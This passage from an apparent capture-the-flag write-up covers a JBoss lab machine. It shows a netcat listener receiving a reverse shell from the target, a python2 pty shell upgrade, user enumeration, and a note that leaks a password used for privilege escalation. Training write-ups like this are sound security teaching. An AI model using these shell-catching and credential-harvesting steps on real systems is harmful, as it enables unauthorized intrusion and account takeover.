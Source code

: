 After the `success` notification appear → Go back to the `Netcat` window and you would get connect to the target machine

```tsx
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.97.213] from (UNKNOWN) [10.10.125.214] 34854
id
uid=1000(cmnatic) gid=1000(cmnatic) groups=1000(cmnatic),4(adm),24(cdrom),30(dip),46(plugdev),110(lpadmin),111(sambashare)
```

Because the exoploit file was written in `python2` → I’m afraid that the target system does not have the `python3` → Unusually, I use `python2` to export the shell with `pty`

```tsx
python2 -c "import pty;pty.spawn('/bin/bash')"
cmnatic@thm-java-deserial:/$
```

# Privilege Escalation → JBoss

Navigate to `/home` directory to list all the current user

```tsx
cmnatic@thm-java-deserial:/$ cd home
cmnatic@thm-java-deserial:/$ ls
cmnatic  jboss  tony
```

There are 3 users currently. Because the requirement at ************Task 6************ require us to submit the flag of JBoss → The first user I choose to escalate is `JBoss` → Navigate to `jboss/` 

```tsx
cmnatic@thm-java-deserial:/home/jboss$ ls -l
total 4
-rw-r--r-- 1 cmnatic cmnatic 368 Mar  6  2020 note
```

With only `-l` flag, the `note` is the only one file that is **********normally********** visible → Read it!

********note********

```
Hey JBoss!

Following your email, I have tried to replicate the issues you were having with the system.

However, I don't know what commands you executed - is there any file where this history is stored that I can access?

Oh! I almost forgot... I have reset your password as requested (make sure not to tell it to anyone!)

Password: likeaboss

Kind Regards,
CMNatic
```
